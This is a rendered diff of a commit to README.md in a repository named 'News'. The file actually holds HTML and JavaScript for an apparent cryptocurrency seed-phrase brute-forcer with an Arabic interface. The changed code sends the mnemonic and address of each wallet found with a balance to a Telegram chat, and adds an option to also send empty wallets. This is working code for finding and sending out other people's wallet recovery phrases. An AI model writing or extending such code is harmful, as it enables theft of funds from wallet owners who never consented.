

Before and after one commit to alimahmoud001/News, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 98% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -91,6 +91,24 @@
             outline: none;
             border-color: #4facfe;
             box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
+        }
+
+        .checkbox-group {
+            display: flex;
+            align-items: center;
+            gap: 10px;
+            margin: 15px 0;
+        }
+
+        .checkbox-group input[type="checkbox"] {
+            width: 20px;
+            height: 20px;
+        }
+
+        .checkbox-group label {
+            margin: 0;
+            font-weight: 500;
+            color: #495057;
         }
 
         .button-group {
@@ -1152,7 +1199,7 @@
                     updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
 
                     // إرسال المحفظة النشطة إلى Telegram
-                    const telegramSent = await sendActiveWalletToTelegram(mnemonic, address, walletStatus);
+                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, true);
                     if (telegramSent) {
                         addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                     } else {
@@ -1161,6 +1208,17 @@
                 } else {
                     addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                     updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
+
+                    // إرسال المحفظة الفارغة إلى Telegram إذا كان الخيار مفعل
+                    const sendEmpty = elements.sendEmptyWallets.checked;
+                    if (sendEmpty) {
+                        const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, false);
+                        if (telegramSent) {
+                            addLogEntry('📭 تم إرسال المحفظة الفارغة إلى Telegram', 'info');
+                        } else {
+                            addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
+                        }
+                    }
                 }
 
                 // إعادة تعيين الزر
@@ -1234,7 +1292,12 @@
             addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
 
             // إرسال رسالة البداية إلى Telegram
-            const startMessage = `🚀 <b>بدء عملية البحث عن المحافظ النشطة</b>\n\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n🔍 جاري البحث عن محافظ تحتوي على رصيد أو معاملات...`;
+            const sendEmpty = elements.sendEmptyWallets.checked;
+            let startMessage = `🚀 <b>بدء عملية البحث عن المحافظ</b>\n\n`;
+            startMessage += `⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n`;
+            startMessage += `🔍 جاري البحث عن محافظ...\n`;
+            startMessage += `📭 إرسال المحافظ الفارغة: ${sendEmpty ? '✅ مفعل' : '❌ معطل'}`;
+
             await sendTelegramMessage(startMessage);
 
             searchInterval = setInterval(searchForActiveWallets, speed);
```
Also changed, not shown: other parts of README.md (+40 -11 lines).
